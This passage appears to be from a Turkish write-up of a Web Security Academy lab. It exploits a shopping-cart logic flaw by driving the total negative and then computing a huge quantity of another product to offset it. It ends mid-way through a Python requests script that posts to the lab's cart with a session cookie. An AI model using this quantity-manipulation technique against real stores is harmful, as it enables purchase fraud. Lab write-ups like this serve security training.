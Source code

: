 ![Untitled](0x14%20e3d5610b147c47c69793fa5e6472953f/Untitled%2020.png)

Ancak bu durumu diğer üründen daha fazla alarak telafi edebiliriz. Bu durumda toplam sepet tutarımız `-$19685852.01` olduğu için bu değeri ürün fiyatımıza bölerek kaç adet almamız gerektiğini hesaplayabiliriz. Eğer hesaplayacak olursak `$19685852.01/20.95=207219.494842 ****`sonucunu vermektedir. Yani `207219.494842` adet eklememiz gerekmektedir. Bu ürün için id değerini bulup programımıza ekleyecek olursak çalıştırdığımızda hedefimize ulaşabiliriz. Burada da 

Bunun için de `id` değerimiz 6 olduğu için kodumuz bu şekilde olacaktır:

```python
import requests
import concurrent.futures

url = "https://0a1400c804682cf1806e67490044007a.web-security-academy.net/cart"
headers = {
    "Host": "0a1400c804682cf1806e67490044007a.web-security-academy.net",
    "Cookie": "session=XvXbtrRCfmnJskV68dhCDMUZRjCo3x6d",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "https://0a1400c804682cf1806e67490044007a.web-security-academy.net",
    "Referer": "https://0a1400c804682cf1806e67490044007a.web-security-academy.net/cart",
    "Upgrade-Insecure-Requests": "1",
    "Sec-Fetch-Dest": "document",
```